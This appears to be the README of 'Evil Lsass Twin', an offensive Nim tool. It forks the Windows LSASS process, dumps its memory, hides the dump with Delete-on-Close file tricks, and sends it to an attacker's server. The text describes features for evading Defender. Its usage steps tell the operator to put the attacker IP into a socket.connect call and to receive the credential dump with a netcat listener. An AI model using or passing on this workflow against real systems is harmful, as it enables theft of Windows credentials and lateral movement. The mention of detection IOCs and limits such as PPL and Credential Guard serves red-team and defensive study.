# Evil Lsass Twin
Originally, a port of the [Dirty Vanity](https://github.com/deepinstinct/Dirty-Vanity) project to fork and dump the LSASS process. Has been updated upon further research to attempt to duplicate open handles to LSASS. If this fails, it will obtain a handle to LSASS through the NtGetNextProcess function instead of OpenProcess/NtOpenProcess. 

Nim, by default (or rather the Winim module) makes use of dynamic function resolution for Windows API functions, so the IAT should only include a reference to GetProcAddress and LoadLibrary (for better or worse).

The process cloning functionality has been updated to use make use of NtCreateProcessEx instead of RtlCreateProcessReflection as this only requires PROCESS_CREATE_PROCESS. 

Partial implementation of Process Ghosting technique is included to make use of the Delete On Close functionality. 

How this works: 
1. MiniDumpWriteDump function is used to dump forked LSASS process's memory into a file on-disk.
2. File is marked with Delete on Close and does not allow other threads to access it simultaneously.
3. File is mapped into memory
4. File is deleted after open handle to it is closed
5. Mapped Data (memory dump) is sent to server
 
Requires the `winim` and `ptr_math` modules. Numerous IOCs and opportunities for detection since this simple port was not built with stealth in mind. However, as noted above, this project _does_ include some stealthy features. 

Tested on Windows 10 22H2 and Windows 11 with Defender enabled (Cloud Analysis disabled).

Must be run from an Administrator Command Prompt or Powershell as EvilLsassTwin depends on the SeDebugPrivilege. 

_Note: SeDebugPrvilege is enabled by default on Elevated Powershell._

_Note: Tool will **not** work against PPL or Credential Guard. Tool also will not work when EDRs patch LSASS a la [Cortex XDR Modifications](https://www.paloaltonetworks.com/blog/security-operations/detecting-credential-stealing-with-cortex-xdr/)_

# Usage
This project was developed and tested with Nim 1.6.10 and 1.6.14. It is **not** compatible with Nim 2.0.

1. Install Dependencies with `nim dependencies` or through Nimble package manager (Atlas not yet tested)
2. Edit line ~~291~~ 311 (may have changed, search for `socket.connect("0.0.0.0", Port(6500))`) in `EvilLsassTwin.nim` file to include your server's (attacker machine) IP address. Optionally: You may change the port number as well. If you do change the port, it needs to be changed within the `EvilLsassTwinServer.nim` file as well.
3. Compile the project with `nim build`.
4. `chmod +x EvilTwinServer && ./EvilTwinServer` Alternatively: `nc -lvnp 6500 > EvilTwin.dmp`
5. Transfer EvilLsassTwin.exe to (Windows) target machine and Run.   

# Resources
[Bill Demirkapi - Abusing Windows Implemention of Fork for Stealthy Memory Operations](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)

[Dirty Vanity](https://github.com/deepinstinct/Dirty-Vanity)

[TransactedSharpMiniDump](https://github.com/PorLaCola25/TransactedSharpMiniDump/tree/master)

[Rasta Mouse - Dumping LSASS with Duplicated Handles](https://rastamouse.me/dumping-lsass-with-duplicated-handles/)

[Rasta Mouse - Duplicating Handles in C#](https://rastamouse.me/duplicating-handles-in-csharp/)

[Splintercod3 - The Hidden Side of Seclogon - Part 2](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)

[Diversenok - The Definitive Guide to Process Cloning on Windows](https://diversenok.github.io/2023/04/20/Process-Cloning.html)
